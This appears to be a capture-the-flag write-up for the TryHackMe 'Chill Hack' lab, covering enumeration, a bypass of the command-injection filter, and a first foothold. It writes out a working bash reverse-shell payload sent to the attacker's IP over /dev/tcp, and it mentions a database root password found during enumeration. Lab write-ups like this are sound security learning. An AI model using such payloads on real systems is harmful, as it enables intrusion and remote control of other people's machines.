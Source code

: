 # Summary
- link: https://tryhackme.com/room/chillhack
- Skills required: enumeration, bypass filtering for OS command injection, reverse shell, Linux privilege escalation, mySQL, data exposure via steganography.
- Tools: nmap, ffuf, cyberchef, ssh, ssh-keygen, steghide, stegseek, zip2john, johng
- Learning: I would rate it a relatively difficult easy room given the multi-layer vulunerabilities and time required. It took me 3 hours.

# Details to get the flag:
- with the given IP a basic port discovery was done by nmap `nmap -sS ip`. When ports were discovered, more switches were used to reveal details.
- <img width="599" height="743" alt="nmap" src="https://github.com/user-attachments/assets/92b1965e-cd2c-4853-9ba6-d317787ad8c2" />
- Found anonymous FTP port 21, http port 80 and SSH port 22.
- FFUF was started to find sub directories. BURP was started record details while I was enumerating manyually.
- Nothing interesting found during manual enumeration. Before going on to the secret folder found by FFUF, these were the information on hands including the note.txt found via FTP.
- <img width="914" height="712" alt="notetxt" src="https://github.com/user-attachments/assets/a8328655-af4c-4ec7-83f4-8b59ae2638bb" />
> ftp Anonymous read only
Linux 4.15, Apache 2.4.41
email: demo@gmail.com : shouldn't be anything interesting... index.html
JQuery 1.11.1: searchsploit possible XXS, msfconsole file upload
note.txt: Anurodh told me that there is some filtering on strings being put in the command -- Apaar
user Anurodh
user Apaar

- in the /secret site, it was possible to input linux command and display output on the screen.
- <img width="1346" height="412" alt="Screenshot from 2025-10-12 20-45-44" src="https://github.com/user-attachments/assets/66ebff3b-e7f9-4078-a59e-50104fe5473e" />
- Efford was make trying to check any client side filtering - negative. So it would be server side filtering. Here were the commands I trided.
  - works: whoami, groups, id, /bin/ls
  - doesn't work: ls, cat, /bin/cat index.php - not sure why it didn't work.
- it would be good to have a reverse shell here by having `/bin/bash` instead of `bash`
- This was the payload and it worked: `/bin/bash -c 'bash -i >& /dev/tcp/10.14.106.24/4444 0>&1'`
- It wasn't difficult to find the first foothold and I thought it would be another straight forwarding CTF.
- Enumeration was done again. There was an interesting file revealed a root username password for dbname webportal. I knew it wouldn't be quick...
- <img width="1161" height="574" alt="indexphp root password" src="https://github.com/user-attachments/assets/cae43b9b-e7ff-4ce0-85ef-fb17fb33ce47" />

